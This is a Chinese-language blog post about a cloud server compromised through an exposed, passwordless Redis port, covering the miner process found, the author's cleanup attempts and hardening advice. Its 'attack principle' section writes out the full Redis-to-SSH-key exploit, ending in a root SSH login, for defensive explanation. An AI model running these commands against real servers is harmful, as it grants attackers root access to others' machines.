 ```yaml
---
title: 记录一次服务器因Redis被攻击的案例
date: 2022-06-16 17:26:17
tags:
- redis
- 服务器安全
categories:
- 1933
photos: https://qiniu.nihaoshijie.com.cn/%E6%97%A0%E6%A0%87%E9%A2%98.png

---
```


## 背景
最近在开发开源项目Report Monitor时，后端使用到了Redis，为了方便本地调试直接连生产环境，将腾讯云服务器上的Redis端口6379对外开放了（同时没有设置口令和关闭了防火墙）。

<!--more-->
## 过程

### 收到提醒

在开放端口仅仅10分钟后，就收到了腾讯云的告警邮件：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/864e969c234d4711a92fa39525520d5b~tplv-k3u1fbpfcp-watermark.image?)

于是查看机器监控，发现CPU和内存都出现了占用率暴涨的情况，而且外网出包/入包量也是非常不正常，的确被人攻击了：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/ff76d409eee44dc4832d3fb89c0a4bf8~tplv-k3u1fbpfcp-watermark.image?)

### 排查进程


首先top一下看看有没有什么又问题的进程，进入top输入P可以按照cpu占用率排序。结果发现了一个这么个进程rshim，查了一下是肉鸡挖矿的病毒，现在这个端口是7295每当我kill他的时候，他就会在其他随机端口又开启：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f0689b1457bf460fbb9c8fe582c732ed~tplv-k3u1fbpfcp-watermark.image?)

最后，直接进入到`/usr/sbin/rshim`，把内容全删，再也不重启了。

再来查看一下网络情况，程序肯定是把本机的一些数据往外面传了，结果发现这个家伙把我本地好多的命令全部都改了，气死我了，例如下面netstate命令把我的可执行权限给删了：

```
# 查看网络相关信息
netstat -aptn
sudo netstat -aptn

# 查看netstat命令在哪里
which netstat
whereis netstat

# 查看一下netstat程序的相关信息
ls -l /bin/netstat

```

结果提示netstat没有x权限（可执行权限），那就用chmod给它加下x权限，结果发现netstat不能赋值可执行权限，如下所示：

```
sudo chmod +x /bin/netstat
lsattr /bin/netstat
```
结果提示没有权限使用该命令：

![image.png](https://p9-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/c3c732b88b5044d193cd0adda3de8b40~tplv-k3u1fbpfcp-watermark.image?)

解决方法就是使用chattr命令来更改，把其i属性去除，结果如下所示，chattr命令招不到：

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/30b9ce2fc3cd479d8d70f5fb5b11c710~tplv-k3u1fbpfcp-watermark.image?)

原来这个病毒已经预知了你可能会用到的命令，所以直接把这些命令全部干掉了，暂时搁置。


### 排查违规用户

group查看一下目前登录的用户，目前只有我自己的root，没什么问题，在查一下这台服务器上所有的用户：

```
cat /etc/passwd |cut -f 1 -d :
```

发现一下多了一个叫做lsb的用户（老色皮？？），这个不是我创建的，进入`/home/lsb`下，`ls -la`查看一下隐藏文件，确实发现了猫腻：

![image.png](https://p6-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/eecb67da0f64426cbcc3e9e9ce50fc4c~tplv-k3u1fbpfcp-watermark.image?)

好家伙，直接拿到了我服务器的ssh权限，这就意味着可以直接登陆到我的服务器上操作了，好在时间不长，赶紧删掉：

```
rm -rf .ssh
userdel hilde
```

发现无法删除文件，说没有权限？然后删除用户的时候，还说不能打开这个文件：

![image.png](https://p1-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f7e3f921c2314ae39ab7f3f8735750c5~tplv-k3u1fbpfcp-watermark.image?)

发现这个权限中，有a权限，意思是在里面追加，不可删除文件的意思，最后还需要使用chattr命令，好家伙，又回到原点。


### 开始摆烂

经过上诉一顿操作，感觉我的服务器已经被污染了，但又不确定污染了哪些地方，直接备份自己/root目录下的文件，然后重新初始化服务器实例。


## 攻击原理

Redis 默认配置为6379端口无密码访问，如果Redis以root用户启动，攻击者可以通过公网直接连接Redis，向root账户写入SSH公钥文件，以此获取服务器权限注入病毒。

### 具体流程模拟

首先在本地生产公私钥文件：

```
$ssh-keygen –t rsa
```

![image.png](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/462eefad34b54fd5a2f73b70ea532787~tplv-k3u1fbpfcp-watermark.image?)

然后将公钥写入key.txt文件：

```
$ (echo -e "  "; cat id_rsa.pub; echo -e "  ") > foo.txt
```

再连接Redis写入文件：

```
$ cat key.txt | redis-cli -h 192.168.1.11 -x set crackit
$ redis-cli -h 192.168.1.11
$ 192.168.1.11:6379> config set dir /root/.ssh/
OK
$ 192.168.1.11:6379> config get dir
1) "dir"
2) "/root/.ssh"
$ 192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
$ 192.168.1.11:6379> save
OK
```

Redis（只在root启动下）关键在利用了config个配置指令功能，传递了ssh的key。如果不是已root启动redis，可能只会被清除数据。

这样就可以成功的将自己的公钥写入/root/.ssh文件夹的authotrized_keys文件里，然后攻击者直接执行：

```
$ ssh –i  id_rsa root@192.168.1.11
```

即可远程利用自己的私钥登录该服务器。


## 总结

1. 一些重要的端口不要随便对外开放。
2. 如果迫不得已端口需要开放，请配置好相关密码，密码尽量不要太简单，要不然容易被暴力破解。
3. 如无必要，不要以root权限运行redis。Windows系统下不要以system权限运行。
